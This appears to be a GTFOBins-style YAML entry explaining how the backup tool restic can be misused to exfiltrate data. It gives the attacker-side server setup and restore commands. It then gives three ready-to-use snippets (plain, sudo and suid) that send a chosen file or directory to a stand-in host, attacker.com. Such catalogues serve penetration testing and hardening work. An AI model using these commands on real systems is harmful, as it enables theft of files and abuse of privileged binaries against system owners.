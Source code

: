 ```yaml
---
description: |
  The attacker must setup a server to receive the backups, in the following example [rest-server](https://github.com/restic/rest-server/) is used but there are other options. To start a new instance and create a new repository:

  ```console
  RPORT=12345
  NAME=backup_name
  ./rest-server --listen ":$RPORT"
  restic init -r "rest:http://localhost:$RPORT/$NAME"
  ```

  To extract the data from the restic repository in the current directory on the attacker side:

  ```console
  restic restore -r "/tmp/restic/$NAME" latest --target .
  ```

  Upload data to the attacker server with the following commands.
functions:
  file-upload:
    - code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_or_dir_to_get
        NAME=backup_name
        restic backup -r "rest:http://$RHOST:$RPORT/$NAME" "$LFILE"
  sudo:
    - code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_or_dir_to_get
        NAME=backup_name
        sudo restic backup -r "rest:http://$RHOST:$RPORT/$NAME" "$LFILE"
  suid:
    - code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_or_dir_to_get
        NAME=backup_name
        ./restic backup -r "rest:http://$RHOST:$RPORT/$NAME" "$LFILE"
---
```

